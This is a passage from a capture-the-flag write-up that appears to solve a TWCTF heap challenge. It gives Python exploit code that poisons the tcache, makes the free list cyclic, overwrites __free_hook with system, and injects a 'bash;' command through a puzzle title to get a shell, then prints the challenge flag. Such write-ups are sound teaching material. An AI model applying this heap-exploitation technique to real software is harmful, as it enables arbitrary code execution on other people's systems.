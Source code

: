 ```python
for i in range(5):
    add_puzzle("tcache" + str(i), 1, b"\x01")

for i in range(5):
    delete_puzzle(14)
```

When we now allocate a new puzzle, the puzzle will be allocated in the first chunk of the tcache.
Using our primitive from before, we can overwrite a `next` pointer from another chunk in the same tcache with this address.
After this, our tcache will be cyclic (because the first chunk will appear again later in tcache again).
We then just need to allocate a string of the correct size and it'll end up in the location of that puzzle, therefore allowing us to overwrite the `next` pointer of a later chunk in the same tcache with arbitrary data.

```python
tcache_next_addr = beg + 0x12c0
# we need some valid puzzles to free, there appear to be some valid pointers at beg + 0x1320
write_puzzleptr_to(tcache_next_addr, base=beg + 0x1320) 
delete_puzzle(2)
delete_puzzle(1)
delete_puzzle(0)
add_puzzle(flat({
    0x0: p64(libc.symbols.__free_hook),
}, length=0x31), 1, b"\x01")
```

After this, we now allocate some more chunks until our `__free_hook` chunk is at the correct place (the correct amount can be found with a debugger) in the tcache linked list and then overwrite the `__free_hook` with system:

```python
for _ in range(2):
    add_puzzle("claim", 1, b"\x01")

add_puzzle(flat({
    0x0: p64(libc.address + 0x55410),
}, length=0x31), 1, b"\x01", check=False)

```

Now, we can simply make a new puzzle with a title containing a shell command to get an interactive shell:

```python
p.sendline("")
p.sendlineafter("Your input: ", "2")
p.sendline("bash;test#################################################1\n\n\n\n\n")
```

And cat the flag: `TWCTF{watashi_puzzle_daisuki_mainiti_yatteru}`
